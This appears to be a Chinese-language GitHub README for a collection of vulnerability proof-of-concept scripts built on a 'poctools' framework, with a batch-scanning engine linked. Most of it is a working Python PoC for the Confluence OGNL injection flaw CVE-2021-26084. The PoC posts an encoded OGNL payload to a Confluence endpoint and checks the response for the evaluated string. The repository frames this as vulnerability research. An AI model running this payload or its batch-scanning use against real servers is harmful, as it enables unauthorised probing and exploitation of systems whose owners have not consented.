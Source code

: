# pocs

使用`poctools`框架编写的漏洞PoC脚本集合，框架问题和PoC问题都可以在本项目提交issue。

poctools框架适用于个人做漏洞研究，批量扫描引擎请使用: https://github.com/yanmengfei/spoce


# 安装框架

```
pip install poctools -i https://pypi.org/simple/
```

# 使用

> 以`Atlassian Confluence Server 注入漏洞(CVE-2021-26084)`为例

## 1. 修改目标
```python
from poctools import BasicPoc

class AtlassianConfluenceServerConsolePoc(BasicPoc):

    path = "/pages/doenterpagevariables.action"
    payload = "queryString=aaa%5Cu0027%2B%23%7B%5Cu0022%5Cu0022%5B%5Cu0022class%5Cu0022%5D%7D%2B%5Cu0027bbb"
    validate = "aaa{class java.lang.String=null}bbb"
    

    def __init__(self):
        super(AtlassianConfluenceServerConsolePoc, self).__init__()
        self.name = "AtlassianConfluence任意命令执行"
    
    def verify(self, url):
        self.set_headers({"Content-Type": "application/x-www-form-urlencoded"})
        response = self.post(url+self.path, data=self.payload)
        if response is None:
            return False
        return self.validate in response.text


if __name__ == '__main__':
    target = "127.0.0.1:1990"
    poc = AtlassianConfluenceServerConsolePoc()
    result = poc.run(target)
    print(f"{target} -> {result}")
```

## 2. 运行
```
python3 atlassian-cve-2021-26084.py
```

## 3. 漏洞利用效果

![](http://img.itmeng.top/20210922172151.png)

